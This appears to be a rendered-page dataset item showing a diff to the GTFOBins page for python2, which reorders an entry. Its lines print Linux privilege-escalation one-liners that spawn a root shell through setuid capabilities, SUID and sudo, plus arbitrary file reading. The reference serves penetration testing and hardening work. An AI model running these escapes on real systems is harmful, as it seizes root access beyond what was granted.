

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/python2.md, in a window 1280 px wide and 1400 px high, scrolled down 1119 px. Shown: the top 1372 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/_gtfobins/python2.md
+++ b/_gtfobins/python2.md
@@ -30,10 +30,10 @@ functions:
     - code: python2 -c 'open("file_to_read").read()'
   load-library:
     - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
-  capabilities-enabled:
-    - code: ./python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
   suid-enabled:
     - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
   sudo-enabled:
     - code: sudo python2 -c 'import os; os.system("/bin/sh")'
+  capabilities-enabled:
+    - code: ./python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
 ---
```
Also changed, not shown: _data/functions.yml (+7 -7 lines).
